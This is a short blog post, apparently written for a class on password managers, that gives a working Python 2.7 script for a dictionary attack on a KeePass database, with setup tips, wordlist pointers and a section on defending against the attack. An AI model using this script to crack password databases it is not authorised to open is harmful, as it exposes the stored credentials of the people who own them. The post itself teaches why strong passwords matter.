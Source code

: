 ```yaml
---
title: KeePass Dictionary Attack
date: 2016-01-02T00:44:40+00:00
author: Josh
layout: post
permalink: /keepass-dictionary-attack/
image: /images/uploads/2016/01/keepass-dictionary-attack.png
categories:
  - Python
  - Security
---
```

## Update

Python 3 version can be found on <a href="https://github.com/0x6A6F7368/KeePassDictionaryAttack" target="_blank" rel="noreferrer noopener">GitHub</a>.

Updated page can be viewed [here](https://joshdawes.com/python-3-keepass-dictionary-attack/).

## KeePass Dictionary Attack &#8211; Python 2.7

<pre class="wp-block-preformatted">import libkeepass

filename = 'sample.kdbx' # Enter name of keepass database
f = open('passwords.txt') # Enter name of password list

for line in f:
    line = line.strip()
    try:
        with libkeepass.open(filename, password=line) as kdb:
            print '\n \n Password has been found. Your password is ' + `line`
            break
    except IOError:
        print 'Trying password:  ' + line</pre>

I wrote this script for a class I was teaching on using Password Managers. Even though we were implementing a Password Manager, some students still insisted on using simple passwords, thus leaving their password manager vulnerable to a simple dictionary attack. It is by no means an elaborate script, but was enough to outline to my students why we should use strong passwords to protect sensitive data.

<div class="wp-block-image wp-image-116 size-full">
  <figure class="aligncenter"><img src="https://joshdawes.com/images/uploads/2016/01/keepass-dictionary-attack.png" alt="Keepass Dictionary Attack" class="wp-image-116" /><figcaption>The KeePass Dictionary Attack script displaying the password found for a KeePass database.</figcaption></figure>
</div>

To use this script you will need access to a wordlist. There are many wordlists around and a quick Google search for &#8216;wordlist&#8217; will link you to several.&nbsp;A list of the top 500 worst passwords can be found <a href="https://gist.github.com/djaiss/4033452" target="_blank" rel="noreferrer noopener">here</a>.

You will also need to download and install the <a href="https://github.com/phpwutz/libkeepass" target="_blank" rel="noreferrer noopener">libkeepass </a>module. To install this module you may also need to download <a href="https://www.microsoft.com/en-us/download/details.aspx?id=44266" target="_blank" rel="noreferrer noopener">Microsoft Visual C++ compiler </a>for Python 2.7.

The KeePass Dictionary Attack script will cycle though the lines of the password list and then display the password if it finds a match. This password will then let you open an view passwords stored in the database. Currently, there is no message displayed if the password isn&#8217;t found.

## Protecting yourself

A KeePass dictionary using the default values can be attacked a fairly reasonable pace &#8211; depending on the speed of the attacking PC of course.

To help protect against a KeePass Dictionary Attack you can try some of the options found <a href="http://keepass.info/help/base/security.html#secdictprotect" target="_blank" rel="noreferrer noopener">here</a> &#8211; this doesn&#8217;t prevent an attacker running this script but does dramatically slow the attacker down.

## Dictionary Attack

A dictionary attack is when an attacker uses a wordlist of common passwords to attempt entry into your account/devices/files/etc. This is often successful due to people using simple dictionary words for passwords &#8211; to avoid this kind of attack ensure you use [long, unique passwords](https://joshdawes.com/diceware-passphrase-generator/).